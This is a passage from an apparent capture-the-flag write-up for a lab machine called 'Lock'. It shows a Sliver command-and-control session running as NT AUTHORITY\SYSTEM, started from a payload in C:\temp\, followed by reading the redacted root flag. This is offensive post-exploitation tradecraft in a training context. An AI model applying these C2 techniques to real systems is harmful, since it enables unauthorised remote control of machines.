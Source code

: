 ![](images/2024-03-23_08-06_cmd_window_properties_cmd_as_system.png)

As before and for documentation purposes, I spawned another `Sliver session` by accessing my payload in `C:\temp\`.

```c
[*] Session f3bc4aa9 OVERSEAS_APPEAL - 10.10.87.100:55775 (Lock) - windows/amd64 - Sat, 23 Mar 2024 08:09:14 EDT

sliver > sessions

 ID         Name              Transport   Remote Address       Hostname   Username              Operating System   Locale   Last Message                            Health  
========== ================= =========== ==================== ========== ===================== ================== ======== ======================================= =========
 f3bc4aa9   OVERSEAS_APPEAL   http(s)     10.10.87.100:55775   Lock       NT AUTHORITY\SYSTEM   windows/amd64      en-US    Sat Mar 23 08:09:17 EDT 2024 (1s ago)   [ALIVE]
```

## root.txt

```c
sliver (OVERSEAS_APPEAL) > cat C:\\Users\\Administrator\\Desktop\\root.txt
VL{REDACTED}
```